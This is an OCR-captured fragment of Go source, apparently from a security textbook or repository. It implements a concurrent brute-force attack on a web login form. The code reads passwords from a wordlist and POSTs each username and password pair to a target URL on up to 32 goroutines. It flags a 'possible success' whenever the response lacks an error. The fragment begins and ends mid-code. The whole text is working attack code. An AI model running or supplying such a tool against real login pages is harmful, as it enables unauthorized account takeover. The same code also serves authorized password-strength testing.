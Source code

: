 ```go
   doneChannel chan bool, 
) 
{ 
   postData := userField + "=" + username + "&" + passField + 
      "=" + password 
   request, err := http.NewRequest( 
      "POST", 
      url, 
      bytes.NewBufferString(postData), 
   ) 
   client := &http.Client{} 
   response, err := client.Do(request) 
   if err != nil { 
      log.Println("Error making request. ", err) 
   } 
   defer response.Body.Close() 

   body := make([]byte, 5000) // ~5k buffer for page contents 
   response.Body.Read(body) 
   if bytes.Contains(body, []byte("ERROR")) { 
      log.Println("Error found on website.") 
   } 
   log.Printf("%s", body) 

   if bytes.Contains(body,[]byte("ERROR")) || response.StatusCode != 200 { 
      // Error on page or in response code 
   } else { 
      log.Println("Possible success with password: ", password) 
      // os.Exit(0) // Exit on success? 
   } 

   doneChannel <- true 
} 

func main() { 
   pwList, postUrl, username, userField, passField := checkArgs() 

   // Open password list file 
   passwordFile, err := os.Open(pwList) 
   if err != nil { 
      log.Fatal("Error opening file. ", err) 
   } 
   defer passwordFile.Close() 

   // Default split method is on newline (bufio.ScanLines) 
   scanner := bufio.NewScanner(passwordFile) 

   doneChannel := make(chan bool) 
   numThreads := 0 
   maxThreads := 32 

   // Check each password against url 
   for scanner.Scan() { 
      numThreads += 1 

      password := scanner.Text() 
      go testLoginForm( 
         postUrl, 
         userField, 
         passField, 
         username, 
         password, 
         doneChannel, 
```